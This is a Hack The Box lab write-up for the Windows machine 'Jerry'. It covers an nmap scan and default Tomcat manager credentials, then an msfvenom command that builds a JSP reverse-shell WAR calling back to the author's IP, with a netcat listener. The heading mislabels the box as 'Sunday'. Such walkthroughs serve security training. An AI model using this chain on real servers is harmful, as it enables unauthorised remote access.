 ```yaml
---
layout: post
title: "Hack The Box: Jerry write-up"
date: 2018-10-09
excerpt: "My first windows box! The way to access the system was cool, but a bit simple... User and root? Looks like they are the same here"
tags: [Pentesting, Hack The Box, Reverse Shell, Windows, Default Password]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/Jerry/images/header.png
---
```


# Hack The Box: Sunday machine write-up

This was my first attempt on a Windows machine and so I chose an easy machine, maybe too easy. It runs with ip 10.10.10.95.

### Enumeration

We start by enumerating open ports to discover the services running in the machine. I ran the following:

*Result of first nmap scan*

```sh
# Nmap 7.01 scan initiated Mon Oct  8 10:22:18 2018 as: nmap -sV -sC -Pn -oA nmap/initial 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.036s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct  8 10:22:33 2018 -- 1 IP address (1 host up) scanned in 14.38 seconds
```

I needed to use the ``-Pn`` option to treat the host as online, otherwise nmap wouldn't discover any ports.

So the only port open is 8080 for a web server. Let's check it out!

*Fresh installation page of apache tomcat*

![Img](/assets/posts_details/Jerry/images/fresh.png)

I knew for one of the previous boxes I had done that Tomcat has an online manager accesible, so I tried with ``/manager`` and was prompted for a username and password. With a bit of luck I guessed it right: ``tomcat:s3cret``.

Then we get in a control panel where a .WAR file can be uploaded. Looks like we found our entry point!

*Control panel of apache tomcat*

![Img](/assets/posts_details/Jerry/images/control.png)

*Option to upload a .WAR file*

![Img](/assets/posts_details/Jerry/images/war.png)

### Exploit

I used msfvenom to create a java reverse shell pointing to my IP address. Then I decompressed it to know what path to request in order to get my shell.

```console
parallels@ubuntu:~/Desktop/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.13.200 LPORT=1234 -f war > reverse.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes

parallels@ubuntu:~/Desktop/jerry$ jar -xvf reverse.war
   created: WEB-INF/
  inflated: WEB-INF/web.xml
  inflated: lmfuyxnlrwrnfg.jsp
```

With that I know that I have to make the following request to get the shell:

```
http://10.10.10.95:8080/reverse/lmfuyxnlrwrnfg.jsp
```

Before making the request, I used netcat to listen on the specified port, 1234. I used ``nc -lnvp 1234``. Once done, I visit the page and get a blank one but once I check I've got a reverse shell!

*Reverse shell connection*

![Img](/assets/posts_details/Jerry/images/shell.png)

### Getting user and root

This was the most straightforward and easy machine I've done to get root and user. I started doing some manual enumeration when I found a path in the admin account that contained a file called ``2 for the price of 1.txt``. Yep, it contained both hashes...

*Getting both hashes*

![Img](/assets/posts_details/Jerry/images/hashes.png)

*Diego Bernal Adelantado*
